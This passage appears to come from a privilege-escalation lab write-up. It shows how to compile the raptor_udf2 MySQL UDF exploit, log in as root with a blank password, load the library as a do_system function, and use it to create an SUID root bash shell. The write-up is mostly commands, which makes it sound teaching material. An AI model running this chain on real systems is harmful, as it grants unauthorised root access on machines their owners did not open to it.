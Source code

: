 
<br />
<br />

## 2. Service Exploits

<br />

This section might be a little advanced for some - It involves compiling the [MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)](https://www.exploit-db.com/exploits/1518) exploit, which is already downloaded as `raptor_udf2.c` under the `/home/user/tools/mysql-udf` directory on the target machine. This exploit allows us to take advantage of User Defined Functions (UDFs) to run system commands with root privileges using the MySQL service.

<br />

We first need to navigate to the file location at `/home/user/tools/mysql-udf`.
```
cd /home/user/tools/mysql-udf
```

Following the instructions provided on the exploit [link](https://www.exploit-db.com/exploits/1518) provided above, we need to compile the file before use:

`gcc -g -c raptor_udf2.c`
<br />
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

Once compiled, we can proceed to run `mysql` as `root` using a blank password:

`mysql -u root -p`

![image](https://user-images.githubusercontent.com/14150485/172220178-7765795d-509d-4c8b-8780-1041318062a9.png)

We can now proceed with the following commands on the `mysql` shell to create a User Defined Function (UDF) `do_system` using the exploit we compiled:

`use mysql;`
<br />
`create table foo(line blob);`
<br />
`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`
<br />
`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`
<br />
`create function do_system returns integer soname 'raptor_udf2.so';`

The table entries can be confirmed with the following command:

`select * from mysql.func;`

![image](https://user-images.githubusercontent.com/14150485/172221440-d3b92d41-c2bb-46a8-9584-9a51764dcfbb.png)

Now, we copy `/bin/bash` to `/tmp/rootbash` and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit the `mysql` shell by typing `exit` or `\q`. Running the `/tmp/rootbash` shell will grant root privileges on the machine.
